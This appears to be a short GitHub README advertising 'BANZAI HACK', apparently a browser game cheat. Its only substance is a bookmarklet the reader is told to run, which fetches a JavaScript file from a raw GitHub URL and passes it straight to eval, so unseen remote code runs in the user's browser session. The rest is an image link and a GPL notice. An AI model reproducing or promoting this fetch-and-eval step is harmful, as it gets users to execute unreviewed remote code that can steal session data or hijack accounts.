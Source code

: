 # 🧟‍♂️ BANZAI HACK
### WITH BETTER FEATURES

👥 PUBLIC:
```js
javascript:fetch("https://raw.githubusercontent.com/wvbztrr/BANZAI.HACK/refs/heads/main/Banzai.js").then(t=>t.text()).then(eval);
```

---

<p align="center">
  <a href="https://cdn3.emoji.gg/emojis/28948-staff.png">
    <img src="https://cdn3.emoji.gg/emojis/28948-staff.png" width="128px" height="128px" alt="staff">
  </a>
</p>

--- 
Copyright (C) 2025

You should have received a copy of the GNU General Public License along with this program. If not, see <https://www.gnu.org/licenses/>.
